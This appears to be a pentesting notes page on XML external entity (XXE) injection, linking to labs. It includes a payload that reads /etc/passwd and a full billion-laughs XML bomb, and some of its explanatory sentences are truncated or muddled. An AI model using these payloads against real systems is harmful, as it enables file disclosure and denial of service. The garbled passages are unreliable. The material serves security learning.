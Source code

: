 # XXE

## Brief

{% hint style="info" %}
An XXE is a type of attack that is performed against an application in order to parse its XML input. In this attack XML input containing a reference to an external entity is processed by a weakly configured XML parser. _Like in Cross-Site Scripting (XSS) we try to inject scripts similarly in this we try to insert XML entities to gain crucial information_.

It is used for declaration of the structure of XML document, types of data value that it can contain, etc. DTD can be present inside the XML file or can be defined separately. It is declared at the beginning of XML using .

There are several types of DTDs and the one we are interested in is external DTDs. There are two types of external DTDs:

1. **SYSTEM**: System identifier enables us to specify the external file location that contains the DTD declaration

In this **XML external entity payload** is sent to the server and the server sends that data to an XML parser that parses the XML request and provides the desired **output** to the server. Then server **returns** that **output** to the **attacker**.
{% endhint %}

### Impacts

{% hint style="warning" %}
**OWASP TOP 10 :** _SSRF, DoS, RCE, XSS_



The CVSS score of a **XXE** is **7.5** and its severity is **Medium** with :

* **CWE-611**: Improper Restriction of XML External Entity.
* **CVE-2019-12153**: Local File SSRF
* **CVE-2019-12154**: Remote File SSRF
* **CVE-2018-1000838**: Billion Laugh Attack
* **CVE-2019-0340**: XXE via File Upload
{% endhint %}

## XXE to SSRF

### Payloads

{% embed url="https://github.com/payloadbox/xxe-injection-payload-list" %}

### Local File Inclusion

With _bWAPP_

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE reset [
<!ENTITY ignite SYSTEM "file:///etc/passwd">
]>...<CODE>
```

### XXE Billion Laugh Attack-DOS

{% hint style="info" %}
These are aimed at XML parsers in which both, well-formed and valid, XML data crashes the system resources when being parsed. This attack is also known as **XML bomb** or XML **DoS** or exponential entity expansion attack.
{% endhint %}

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
<tag>&lol9;</tag>
```

### XXE File Upload

XXE can be performed using the file upload method.

{% embed url="https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload" %}
Lab XXE File Upload
{% endembed %}

## XXE to RCE

### POC with XXELAB

{% embed url="https://github.com/jbarone/xxelab" %}

```bash
git clone https://github.com/jbarone/xxelab.git
cd xxelab
vagrant up
```

![XXE to RCE](<../../.gitbook/assets/image (138).png>)
